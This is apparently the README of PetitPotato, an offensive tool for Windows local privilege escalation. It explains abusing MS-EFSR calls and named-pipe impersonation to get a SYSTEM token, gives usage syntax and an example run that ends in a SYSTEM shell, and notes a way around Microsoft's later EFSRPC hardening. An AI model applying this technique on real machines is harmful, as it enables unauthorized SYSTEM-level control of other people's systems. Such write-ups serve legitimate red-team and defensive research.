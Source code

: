 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [Version 10.0.20348.1547]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165055659.png)

![image-20221030165622668](/images/image-20221030165622668.png)

## Update on 2023/03/14

PetitPotam does not work on newer versions of Windows due to the limitations of related patches. However, setting AuthnLevel to `RPC_C_AUTHN_LEVEL_PKT_PRIVACY` via `RpcBindingSetAuthInfoW` before calling EFS works on latest systems.
> In December 2021, Microsoft released a patch for a different EFSRPC vulnerability: CVE-2021-43217. As part of the remediation for that issue, Microsoft implemented some hardening measures on EFSRPC communication. In particular, EFSRPC clients would need to use RPC_C_AUTHN_LEVEL_PKT_PRIVACY when using EFSRPC. If the client fails to do so, then the client is rejected and a Windows application event is generated.

At present, the project can perfectly elevate to SYSTEM on Windows 21H2 10.0.20348.1547.

![image-20221030165055659](/images/image-20221030165155659.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/
- https://github.com/zcgonvh/EfsPotato/pull/5

